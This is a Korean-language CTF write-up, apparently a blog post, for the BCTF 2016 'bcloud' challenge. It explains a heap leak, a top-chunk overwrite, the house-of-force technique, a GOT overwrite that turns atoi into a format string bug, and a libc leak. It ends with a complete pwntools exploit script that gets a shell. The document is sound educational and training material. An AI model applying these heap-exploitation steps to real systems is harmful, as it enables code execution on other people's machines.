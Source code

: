 ```yaml
---
layout: post
title: BCTF 2016 - bcloud write-up
---
```


하우스 오브 포스

이 문제는 house of force기법을 이용한 힙 문제인데, format string bug를 trigger하는 과정이 필요하고 나한테는 다소 복잡하지만 이해하니 재밌는 문제였다.

file

----------

![](https://lh5.googleusercontent.com/FIV_0BSv9zW1O-tQJXfJVPfMbPNO0f_VxKrOrTPTDRE_ekMeJ-Ved3EwoyDkgMQ03cvJ09KfHNZJAHlGckohz6eEYbgP1FtUSbrSAod3xTLr_iVSkr9JH7AcQyNDHa3oz-2JuFby)

ELF 32bit 파일이다.

보호기법

----------

![](https://lh6.googleusercontent.com/HUvQvt63qWol71IM5HmJJLOkS779ya4MQIG4hN91vApEAZhzi_b4_UXB6YfeMauIilSUTBHRpOPvMwiL0S5A7g6dt28rPHTokc_syCRDQf-3sqAWcmFbzTVGo6hl4dUTXcB3Ib--)

canary와 nx가 걸려있다.

분석

----------

main함수를 보면 먼저 while문 전에 함수를 호출한다.

![](https://lh4.googleusercontent.com/RovwjnILZBHQ1rBuHoLZoilao822YmsH3SUbGe3inTmSEXyPYv1_MWh4wVwOvwe0_azMXswOsWsWLuM6NJdyuF3Hdw2SD7S0LgKVC_ONRlot6D86JvoEqrfH3CFUEddNWWmVZogo)

input_name함수를 보면

![](https://lh4.googleusercontent.com/O3K-LqbMvgsvQRbTmcE0VpS7b_5OkXNGnIBtbia-IVc94GGPykr0VyBsptWfMoeXsBi0vEJxWuOf--sDHXgTvoNr2QByqyHA5d04hBfaLQ4D9famyjCZQZka_Kd_sCGNNGkwfWRi)

Input your name: 이라는 문구가 출력되고 input_read 함수가 실행된다.

![](https://lh3.googleusercontent.com/KAENkEt-hSt5RJinfjjwTQ-HuO7afU0nLl0fKqz3UZ8APfmW_KoOhzY5OCD46dFS9CTTS28nXTftRQHqkmEjbsYrW2wNS5IfLKbz_mlRWEpf22A0O_UYu6gK0La8Q0OO4q7XjSa6)

2번째 인자까지 입력 받고, 개행문자가 도중에 있으면 break한다.

다시 input_name 함수로 돌아와서,

![](https://lh4.googleusercontent.com/Ma-_hAmP-qCsxy5aMgqeaftKkS6oIBs85m9qjPPL9PVU2fPmhLMOBk0OcaS8ThT4yyubdwNTQxR7J4KwLX6NDDUTthoTT09mdtWI8Yk4mtBrJeKpbj_WK0YzgSM9ZvAKzkDGZN8K)

v2 를 0x40(64) 만큼 malloc 해주고 입력 받은 name을 chunk에 strcpy를 진행한다.

malloc 공간이 64이고 입력도 64까지 받을 수 있다. sub_8048779 함수를 보자.

![](https://lh5.googleusercontent.com/b3tCjYYA0cj4Y8ozFNflIJ5RALIOoQVuJSl5NiBArCLKi-j09LRhQ_S-DpCNLR48VsWA67_WpxIenVz7NjQuqyhyeGDRWVTfjYcvZKhClG_H0tauubQx-ro4EbMFA4sqZpjG5848)

%s로 v2의 data를 출력해준다. 아까 입력할 때 64를 채워서 입력하면, 뒤에 heap base가 leak 된다. 이유는 널이 없으니 문자열의 끝을 인식 못한다.

이를 이용해서 heap base를 구하고 Top chunk의 주소를 구할 수 있다.

![](https://lh3.googleusercontent.com/fwJX-JZWv1O6E6XlV_BLpAt-w8rrFSTWGajs533D2Nibx7tEa2CEkEEZqZ9SZ2gGfVWVPomMZmI31DzNZVfnj-Qwarc8QHnp_IRYp_q-tpnSosOXV8eF_VJZapLViyvp9j6qFh1D)

sub_804884e 함수이다.

![](https://lh3.googleusercontent.com/Ql0xS7wRu3b86CuI_WK2z_DnWWqgaFKxE-A8P6SxKoRKHVJ1a732pK3n6-SFupH4ZHqh9SKRoJNvpLaxUwaB-Ic3hZFiViS29c9zKHg7dmysR8lTiU_UyfVZVRlhrESE3x0JgmGs)

Org를 &s에 입력 받고 Host에 &v3을 입력 받는다.

v4와 v2를 0x40(64)만큼 차례대로 할당 한다.

두 번째 malloc chunk의 data에는 Host가 strcpy 된다.

마지막 malloc chunk의 data에는 Org가 strcpy 된다.

마지막 malloc chunk에서 data를 0x40만큼 최대로 채워주고 +4만큼 더 채우고 더 입력받으면 Top chunk를 control할 수 있게 된다.

근데 입력을 64만큼 밖에 안 받는다. 일단 data는 다 채울 수 있게 되는데 8바이트를 더 입력받을 수 있어야 Top chunk를 control 할 수 있다.

&s의 위치를 보면 bp-0x9c 에 위치해 있다. 64만큼 입력을 받으면 v2 포인터가 있다. 어랏?

64(data) 만큼을 채우고 다음 4바이트는 어쨌든 값이 들어가 있을테니깐 overwrite가 가능하고 이제 그 다음 4바이트가 Top chunk 인데, v3, 즉, Host로 처음 입력 받는 4바이트로 Top chunk를 조절 할 수 있다.

![](https://lh6.googleusercontent.com/GiLU8JO00WsypGJaJAP3oPeJ6FfzaN-bPLSdOecDX89DTuiChNVGFZcP4t0qWCcmOweXRwdgqyl-p47aO7K95nq1yYTpeWwd3WOJRny3puuH7lWb-43tukQ1IKxoaWu1yIXq9P_D)

이제 while 문을 반복한다.

1부터 보자.

![](https://lh5.googleusercontent.com/XGP3A3BxRBYYSXJv9pRZzHPTHUbKJPWHjBsM_AOvQCZJB1vKHP3OmD__Sa2wcxd-QASr2dhNntReWcjsOWIPEdXHtts6RwEwqQ_QrVjhRrk-RjRY2jBfsyScDBx5EYsQLUhOBcNv)

v2에 input을 받는 것 같다 sub_8048709를 보겠다.

![](https://lh3.googleusercontent.com/X5hmFDM3fTFF8weZkMStniH1YFzb1-qOX1PDdCI8JWaD3Lf_Tjlxl16W8Oe7SBxYC16dUQ1OgGF3TwRWq89O7TMg4ZFKa5BH3IsBlrQhH4Kpjf9-nak7LlyXb-x4EZko0BWu4jlS)

여기서 좀 꿀잼인데 input_read로 nptr에 입력을 받고

이를 atoi로 숫자로 변형해준다.

atoi(&nptr)

atou의 got 를 printf로 got overwrite를 통해 format string bug를 trigger 할 수 있다.

이를 이용해 libc를 leak 할 수 있게 된다.

다시 돌아와서,

![](https://lh5.googleusercontent.com/XGP3A3BxRBYYSXJv9pRZzHPTHUbKJPWHjBsM_AOvQCZJB1vKHP3OmD__Sa2wcxd-QASr2dhNntReWcjsOWIPEdXHtts6RwEwqQ_QrVjhRrk-RjRY2jBfsyScDBx5EYsQLUhOBcNv)

아까 heap overflow로 top chunk를 0xffffffff로 control할 수 있게 되었다.

여기서 v2에 atoi로 숫자를 입력 받고, v2+4만큼 malloc을 할당해준다.

이 쯤에서 house of force의 충족 요건을 확인 해보겠다.

1. top chunk를 0xffffffff로 조작이 가능해 malloc을 원하는 만큼 할당할 수 있어야 한다.

2. malloc size를 원하는 만큼 control해 원하는 곳에 할당시킬 수 있어야 한다.

3. 원하는 곳에 malloc 된 곳에 user data로 컨트롤이 가능해야한다. (예를 들어 got overwrite)

충족하니 house of force 기법을 이용해 공격하면 된다.

atoi got를 printf plt로 overwrite해야한다.

(atoi got) - (top chunk) - header(8) 을 한 값을 넣어야 하지만 이 문제에서는 -4만큼 더 빼서

(atoi got) - (top chunk) - header(8) - 4 한 size를 할당해야한다.

그리고 user data를 입력할 때 바로 printf plt로 덮는게 아니라 “AAAA”+p32(printf_plt) 이렇게 덮어야 한다.

이렇게 하면 atoi가 printf로 바껴 fsb가 가능해진다.

offset구하고 printf_got넣고 libc leak했다.

system offset까지 구해주고,

다시 house of force를 통해 atoi->printf로 바뀐 atoi_got를 system_got로 바꿔야 한다.

다행하게도 3번메뉴에서 user data를 수정 할 수 있다.

근데 3을 입력하려는데 입력이 안된다. 이는

atoi가 printf로 바뀌었기 때문.

3이면 문자를 3개 이어 붙혀서 send하면 된다.

즉, atoi로 3이면 pritnf “AAA”와 같다.

그렇게 해서 다시 AAAA+p32(system)으로 덮어주고 nptr을 /bin/sh로 바꾸어주면 쉘을 얻을 수 있다.

libc를 어떻게 leak할 수 있는지 leak vector를 찾는게 좀 중요한 문제였고 이 문제를 통해 힙의 대한 이해와 hof 기법에 대한 이해도가 높아진 것 같아서 배운게 많은 좋은 문제였던 것 같다.

> exploit.py

----------
```python
from pwn import  *

s = process("./bcloud")
e = ELF("./bcloud")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")
#context.log_level = 'debug'

s.recv()
s.send("A"*64)
s.recvuntil("A"*64)
atoi_got = e.got['atoi']
printf_plt = e.plt['printf']
printf_got = e.got['printf']
leak_heap=u32(s.recv()[:4])
heap_base = leak_heap -  0x8
top_chunk = heap_base +  224  # (header(8) + data(64))*3
log.success("leak_heap:"  + hex(heap_base))
log.success("top_chunk:"  + hex(top_chunk))
s.send("B"*64)
s.recvuntil("Host:\n")
s.sendline("\xff\xff\xff\xff")
s.recvuntil(">>\n")
size = atoi_got - top_chunk -  8  -  4

s.sendline("1")
s.recvuntil(":\n")
s.sendline(str(size))
s.recvuntil(">>\n")
s.sendline("1")
s.recvline(":\n")
s.sendline("8")
s.recvline(":\n")
s.sendline("AAAA"+p32(printf_plt))
s.recvuntil(">>\n")
s.sendline("1")
s.recvline(":\n")
payload = p32(printf_got)+"k"+"%6$s"
s.sendline(payload)
s.recvuntil("k")
leak_printf=u32(s.recv()[:4])
log.success(hex(leak_printf))
base = leak_printf - libc.symbols['printf']
log.success(hex(base))
system = base + libc.symbols['system']
log.success(hex(system))
s.sendline("AAA")
s.recv()
s.sendline("333")
s.recv()
s.sendline("1")
s.recv()
s.sendline("AAAA"+p32(system))
s.sendline("/bin/bash")
s.recv()
s.recv()
s.interactive()
```
  

  

![](https://lh3.googleusercontent.com/Jy_cJuQdEI0ZiZHOiqFuAg7h8p2dOft3O-XMYGwZqN4kYjIBvO4lU7sSDXZC3zcW4QMIFJhpB8DZfyFqNn1m4LLZ6SX__P7YBjPFUiKdHI6CLYy03y6HWMGiN2XjRHqYbEtK53Qw)
